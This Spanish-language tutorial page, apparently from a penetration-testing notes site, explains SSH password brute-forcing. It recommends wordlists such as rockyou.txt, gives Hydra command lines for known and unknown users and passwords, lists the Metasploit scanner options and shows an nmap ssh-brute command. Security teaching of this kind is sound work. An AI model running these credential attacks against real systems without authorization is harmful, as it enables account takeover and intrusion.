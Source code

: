 ```yaml
---
description: En esta página aprenderás a enumerar y hacer fuerza bruta ante el servicio SSH
cover: >-
  https://images.unsplash.com/photo-1576502200916-3808e07386a5?crop=entropy&cs=srgb&fm=jpg&ixid=M3wxOTcwMjR8MHwxfHNlYXJjaHw2fHxnZW9tZXRyaWN8ZW58MHx8fHwxNjg5MjQxNDA2fDA&ixlib=rb-4.0.3&q=85
coverY: 278
---
```


# SSH

## Fuerza Bruta

{% hint style="success" %}
A la hora de emplear diccionarios se recomiendan los siguientes:

### Usuarios

```
/usr/share/wordlists/metasploit/unix_users.txt
```

### Contraseñas

```
/usr/share/wordlists/rockyou.txt
```
{% endhint %}

### Hydra

Para poder hacer fuerza bruta con hydra al servicio SSH, se pueden dar varios casos, en el caso de que tengas el usuario pero no la contraseña, deberás de usar un diccionario en este aspecto, por lo que el comando sería el siguiente

```bash
hydra -l user -P passwords.txt ssh://127.0.0.1 -t 15
```

En este caso con el parámetro `-l` le indicamos que sabemos el usuario y con el parámetro `-P` le indicamos la ruta donde esta el diccionario de contraseñas.

{% hint style="warning" %}
Puede que el servicio SSH no se encuentre en el puerto predefinido, en ese caso deberemos de especificar a hydra el puerto en el que está, esto se hace con el parámetro `-s`

```bash
hydra -l user -P passwords.txt ssh://127.0.0.1 -t 15 -s 2000
```
{% endhint %}

En el caso contrario de que no sepas el usuario pero si la contraseña, los parámetros querían así:

```bash
hydra -L users.txt -p Password123 ssh://127.0.0.1 -t 15
```

En este comando, le indicamos la ruta del diccionario de usuarios con el parámetro en mayúscula y una contraseña en concreto con el parámetro en minúscula. En el otro posible caso de que no tengamos ni la contraseña ni el usuario, pondremos los dos parámetros en mayúscula pasándole como valor la ruta del diccionario tanto de usuarios como de contraseñas.

```bash
hydra -L users.txt -P passwords.txt ssh://127.0.0.1 -t 15
```

### Metasploit

Para esto, usaremos el modulo "SSH Login Check Scanner". Deberemos de configurar las siguientes opciones:

* USERNAME -> En el caso de que usemos un usuario concreto
* USER\_FILE -> En el caso de que usemos un diccionario de usuarios
* PASSWORD -> En el caso de que usemos una contraseña concreta
* PASS\_FILE -> En el caso de que usemos un diccionario de contraseñas
* RHOSTS -> IP de la máquina victima

### Nmap

Podemos emplear el script "`ssh-brute`" para usar fuerza bruta. En este caso no es necesario especificar un diccionario de contraseñas, solo de usuarios:

```bash
nmap -p 22 --script ssh-brute --script-args userdb=/root/users 192.168.1.1
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
